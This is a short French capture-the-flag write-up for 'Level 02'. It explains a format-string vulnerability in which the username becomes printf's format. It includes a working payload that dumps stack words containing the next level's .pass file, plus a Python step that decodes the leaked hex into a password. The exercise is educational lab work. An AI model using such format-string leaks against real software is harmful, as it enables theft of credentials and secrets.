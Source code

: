 # Level 02

Dans se niveau, quand on décompile on peut voir qu'il fait un call à la fonction `system("/bin/sh")` uniquement si le password est égal au contenu du fichier `/home/users/level03/.pass`, mais en regardant de plus près on peut voir que l'username récupérer devient le format du `printf` à la fin du programme.

Nous pouvons exploité le printf pour afficher la stack du programme contenant le fichier `.pass`.

```shell
$ python -c 'print "%22$lx %23$lx %24$lx %25$lx %26$lx"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d does not have access!
$ python
>>> "48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848".decode("hex")[::-1]
'Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H'
```

